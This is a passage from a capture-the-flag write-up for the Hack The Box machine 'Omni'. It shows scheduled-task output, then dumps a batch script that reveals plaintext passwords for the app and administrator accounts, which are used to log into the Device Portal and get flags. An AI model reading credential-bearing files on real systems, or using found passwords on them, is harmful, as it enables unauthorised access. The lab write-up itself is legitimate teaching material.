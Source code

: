 ```powershell
Task To Run:                          C:\Program Files\WindowsPowerShell\Modules\PackageManagement\r.bat
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          SYSTEM
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A
```

The task contains a path to a bat script, dumping the contents of this script gives us both the password for the `App` and the `Administrator` account:

```powershell
PS C:\Data\Users\Administrator> cat "C:\Program Files\WindowsPowerShell\Modules\PackageManagement\r.bat"
cat "C:\Program Files\WindowsPowerShell\Modules\PackageManagement\r.bat"
@echo off

:LOOP

for /F "skip=6" %%i in ('net localgroup "administrators"') do net localgroup "administrators" %%i /delete

net user app mesh5143
net user administrator _1nt3rn37ofTh1nGz

ping -n 3 127.0.0.1

cls

GOTO :LOOP

:EXIT
```

With both usernames and password found, it is possible to retrieve the flags by logging into the Device Portal:

![App Account Login Dialog](../../../assets/2021-01-10-hack-the-box-omni/app-login-dialog.png)
